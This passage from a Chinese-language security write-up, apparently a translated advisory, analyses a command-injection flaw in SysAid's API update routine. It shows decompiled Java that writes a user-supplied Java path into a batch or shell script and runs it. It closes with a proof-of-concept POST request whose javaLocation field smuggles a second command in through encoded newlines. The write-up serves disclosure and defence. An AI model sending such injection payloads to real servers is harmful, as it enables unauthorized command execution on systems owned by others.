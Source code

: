 ```
1: publicstatic String a(LoginInformationBean loginInformationBean, String str) {2: String[] list;3: if (loginInformationBean == null) {4: thrownewException("Login Bean is null.");5: }6: ResourceBundle resourceBundle = loginInformationBean.getResourceBundle();7: String str2 = null;8: String accountStringProperty = AccountPropertiesManager.getAccountStringProperty(loginInformationBean.getAccountID(), AccountPropertiesConstants.SYSAID_API_SETTINGS_JAVA_LOCATION);9: if (accountStringProperty == null || accountStringProperty.trim().length() == 0) {10: return resourceBundle.getString("api.empty.path");11: }12: boolean isWindows = Helper.isWindows();13: try {14: String str3 = str + "src/com/ilient/api/";15: String str4 = str3 + "sysaidObjects/";16: new File(str4).mkdirs();17: 18: 19: [..SNIP..]20: 21: printWriter2.flush();22: printWriter2.close();23: new File(str + "/classes").mkdirs();24: list = new File(str + "../lib/").list();25: } catch (Exception e) {26: IlientConf.logger.error("Error in updating SysAid API jar file", e);27: e.printStackTrace();28: str2 = resourceBundle.getString("api.update.fail.sysaid.logs");29: }30: if (list == null || list.length == 0) {31: return resourceBundle.getString("api.webinf.lib.files.missing");32: }33: String str5 = isWindows ? ";" : ":";34: StringBuffer stringBuffer = new StringBuffer();35: for (int i = 0; i < list.length; i++) {36: if (list[i].endsWith(".jar")) {37: stringBuffer.append(str5).append("../../lib/").append(list[i]);38: }39: }40: String str6 = isWindows ? "src/updateApi.bat" : "src/updateApi.sh";41: PrintWriter printWriter5 = new PrintWriter(new FileOutputStream(str + str6));42: if (!isWindows) {43: printWriter5.write("#!/bin/sh\\n");44: }45: printWriter5.write("cd \\"" + str + "src\\"\\n");46: printWriter5.write("\\"" + accountStringProperty + "javac\\" -d ../classes -cp .;../../classes" + stringBuffer.toString() + " com/ilient/api/*.java com/ilient/api/sysaidObjects/*.java\\n");47: printWriter5.write("\\"" + accountStringProperty + "wsgen\\" -d ../classes -cp .;../../classes" + str5 + "../../lib/api4sysaid.jar" + str5 + "../../lib/sysaid.jar com.ilient.api.SysaidApiService\\n");48: printWriter5.write("cd ../../lib\\n");49: printWriter5.write("\\"" + accountStringProperty + "jar\\" -cvf aapi4sysaid.jar -C ../api/classes com\\n");50: printWriter5.flush();51: printWriter5.close();52: if (!isWindows && a("chmod a+x " + str + str6) != 0) {53: str2 = resourceBundle.getString("api.grant.permissions") + str + str6;54: }55: if (a(str + str6) != 0) {56: str2 = resourceBundle.getString("api.update.fail.tomcat.logs");57: }58: return str2;59: }60:
```  
  
- 行 [8]：通过访问以下属性来检索 Java 安装路径AccountPropertiesConstants.SYSAID_API_SETTINGS_JAVA_LOCATION  
  
- 行 [9]:继续之前请确认accountStringProperty不是。null  
  
- 行 [40]：根据操作系统选择脚本文件名isWindows ? "updateApi.bat" : "updateApi.sh";  
  
- 行 [41]：打开一个FileOutputStream使用str6为目标脚本名的脚本。  
  
- 第 [46, 47, 49] 行 ：将之前获取的 Java 路径（accountStringProperty）插入到脚本内容中，以自动执行脚本。  
  
现在，让我们测试一下这个方法及其实际行为。  
  
通常，该文件的内容updateApi.bat包含以下内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeGcp41j21ia6ugLOgA4BIrWTRIsqFfKriaSOM2dZUicRy93rj6T9Ctt4OuHwE8LJ5EScq593Hu2puBQ/640?wx_fmt=png&from=appmsg "")  
  
如您所见，C:\\java\\bin\\是当前 Java 路径，文件的其余部分包含多个 shell 命令，这些命令执行 Java 代码以最终生成有关当前 SysAid 实例的 API 信息。  
  
正如您可能在上面的方法的代码示例中发现的那样，输入验证似乎是我们认为的无形概念，它允许攻击者轻松地将其命令注入到updateApi.bat文件创建过程中。  
  
通过发送以下请求可以证明这一点：  
  
```
POST/API.jsp HTTP/1.1Host: targetContent-Type: application/x-www-form-urlencodedCookie: JSESSIONID=sessionContent-Length: 134updateApi=false&updateApiSettings=true&javaLocation="%0acalc%0a
```  
  
